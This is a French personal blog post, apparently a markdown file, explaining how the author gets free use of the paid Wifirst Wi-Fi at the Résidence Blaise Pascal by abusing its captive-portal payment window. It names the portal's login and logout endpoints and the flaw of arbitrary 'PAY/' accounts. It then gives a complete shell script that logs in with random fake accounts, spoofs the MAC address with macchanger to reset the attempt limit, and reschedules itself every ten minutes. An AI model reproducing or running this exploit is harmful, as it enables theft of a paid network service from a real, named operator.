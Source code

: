 ```yaml
---
title: Hack Wifirst dans la Résidence Blaise Pascal
tags:
  - Daily
lang: fr
---
```


J'ai déménagé à la Résidence Blaise Pascal le mois dernier.
Je suis content de son loyer, qui est vraiment pas cher.
Mais on ne peut plus utiliser le Wi-Fi `Eduroam`.
J'ai essayé un peu le Wi-Fi `Wifirst Blaise Pascal`.
Sa vitesse n'était pas mal et j'ai trouvé des vulnérabilités à exploiter
tel que l'on peut l'utiliser sans rien payer.

## Vulnérabilités

1. Chaque fois que nous commandons un abonnement, nous sommes donnés dix minutes de connexion
   pour finir notre payement.
   Nous obtenons cette connexion si nous visitons une page avec URL
   https://portal-front.wifirst.net/subscription/connect/261098,
   où le nombré `261098` peut être n'importe quoi,
   ici j'utilise mon anniversaire comme exemple.
   
> Si vous avez peur de la configuration informatique,
> veuillez juste cliquer le lien au-dessus chaque dix minutes
> pour vous profiter la connexion gratuite
> et vous pouvez arrêter de lire sans problème.

2. Pour dix minutes, on reste connecté même si on part le page du payement.
   Mais nous n'avons que quatre chances à connecter utilisant la connexion ramenée par nos
   « intentions » de commande pendant deux heures.

3. Si nous changeons notre adresse de MAC, nos quatre chances de connecter
   sont recalculé immédiatement.

4. Le dix minutes de connexion est en effet alloué au compte nommé `PAY/jing@wifirst.net`
   avec mot de passe `jing`.
   Encore, nous pourrons remplacer le nome `jing` par n'importe quoi,
   et j'utilise mon surnom habituel ici.

5. L'API (Interface de programmation) pour login est sous l'URL
   https://wireless.wifirst.net:8090/goform/HtmlLoginRequest, et l'API pour déconnecter
   est sous l'URL https://wireless.wifirst.net:8090/goform/HtmlLogout.
   Dans le POST requête pour le login URL,
   c'est obligatoire de fournir les domaines `username`, `password`, `success_url` et `error_url`.

## Exploiter

Les commandements suivants sont utilisé dans mon système d'exploitation `Ubuntu`
pour automatiser et maintenir la connexion.

- `curl`, ennoyer la requête de POST avec les donnés nécessaires.
- `at`, connecter et déconnecter automatiquement pour chaque dix minutes
  par appelant `curl` commandement.
- `iwgetid`, vérifier que je suis connecté au Wi-Fi `Wifirst Blaise Pascal` en ce moment.
- `NetworkManager`, exécuter ma scripte une fois que je suis connecté au Wi-Fi.

Voici ma scripte pour vous faites référence.

```sh
#! /bin/sh

# Please change this variable accordingly.
path_to_current_script="$HOME/Documents/Code/Shell/scripts/blasie_pascal_wifi"

# To start the login process automatically once you are connected to the Wi-Fi,
# put the following commands into a script located at the directory /etc/NetworkManager/dispatcher.d/.
# Replace $USER and $path_to_current_script by correct values in current system.
# You might need to set $USER to be able to run the sudo commands in this script without password
# via `sudo visudo /etc/sudoers`.
#
# #! /bin/sh
# if [ $1 = 'wlp1s0' ] && [ $2 = 'dhcp4-change' ] &&
# 	[ $CONNECTION_ID = "Wifirst Blaise Pascal" ]; then
# 	su $USER $path_to_current_script
# fi

if [ "$(iwgetid | grep 'ESSID:"Wifirst Blaise Pascal"')" ]; then

	# First logout from possible old sessions

	/bin/curl -s 'https://wireless.wifirst.net:8090/goform/HtmlLogout' \
		--data "error_url=https://www.google.fr" \
		--data "success_url=https://portal-front.wifirst.net"

	# Generate random account

	current_time=$(date +%s%3N)
	error_code=$(curl -s -D - 'https://wireless.wifirst.net:8090/goform/HtmlLoginRequest' \
		--data "username=PAY/$current_time@wifirst.net" \
		--data "password=$current_time" \
		--data "success_url=https://www.google.fr" \
		--data "error_url=https://portal-front.wifirst.net" \
		--compressed | grep -o -P 'code=\K\d')
	if [ $error_code ]; then
		# notify-send "Wifi fails with code $error_code" "Attempt to change the mac address"

		sudo /sbin/ifconfig wlp1s0 down
		sudo /bin/macchanger -r wlp1s0
		sudo /sbin/ifconfig wlp1s0 up
		# Network dispatcher would run this script again
	else
		# remove possible duplicated at jobs
		/bin/atq -q n | /bin/cut -f 1 | /bin/xargs /bin/atrm
		# setup new job in 10 minutes
		/bin/at -q n -M -f $path_to_current_script now + 10 minute
	fi
fi
```
